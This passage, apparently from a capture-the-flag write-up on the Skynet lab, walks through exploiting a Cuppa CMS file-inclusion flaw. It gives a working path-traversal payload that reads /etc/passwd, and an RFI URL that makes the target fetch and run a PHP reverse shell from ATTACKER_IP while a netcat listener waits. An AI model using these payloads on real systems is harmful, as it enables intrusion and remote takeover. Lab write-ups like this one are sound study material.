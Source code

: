 In essence, this exploit targets the 'alertConfigField.php' file within the Cuppa CMS service. More specifically, it targets the 'urlConfig' parameter. Through this parameter, we can input a path that traverses directories to access other files on the machine, such as /etc/passwd. This is known as a local file inclusion (LFI) attack. However, we can also input a path to a file on a webserver that we, the attacker, are controlling. This will cause our target machine to download and execute that file, allowing us to do things such as open up a reverse shell! This is known as a remote file inclusion (RFI) attack. 

We will be using this exploit to carry out an RFI attack.

Before we do that, let's just try to read the /etc/passwd file on our target machine, so as to verify if the exploit even works on this machine.

**Payload:**

```
 http://10.10.86.116/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

**Results:**

![screenshot24](../assets/images/skynet/screenshot24.png)

Great, Looks like the exploit works! Now, we will move on to carrying out the RFI attack. We'll be using the PHP reverse shell created by [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

First, we host a simple HTTP server on port 8000 using Python:

```
python3 -m http.server
```

Next, we set up a netcat listener so that it can catch the reverse shell when it is opened. 

With the servers up and running, we just have to navigate to the following URL:

```
http://10.10.86.116/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://ATTACKER_IP:8000/php-reverse-shell.php`
```

Once we visit this URL, we can see that the reverse shell has been successfully opened:

![screenshot25](../assets/images/skynet/screenshot25.png)
